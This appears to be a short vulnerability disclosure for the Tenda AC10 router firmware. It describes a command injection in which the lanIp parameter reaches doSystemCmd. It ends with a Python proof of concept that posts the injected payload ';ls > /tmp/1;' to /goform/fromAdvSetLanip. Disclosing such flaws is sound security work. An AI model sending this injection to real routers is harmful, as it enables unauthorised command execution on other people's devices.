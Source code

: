 # command injection

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a command injection in httpd/TendaTelnet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](13.png)

call doSystemCmd, split lan.ip

![](14.png)

lan.ip get value from lanIp

## POC
```
url = "http://192.168.1.13/goform/fromAdvSetLanip"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={'lanIp': payload})
``` 
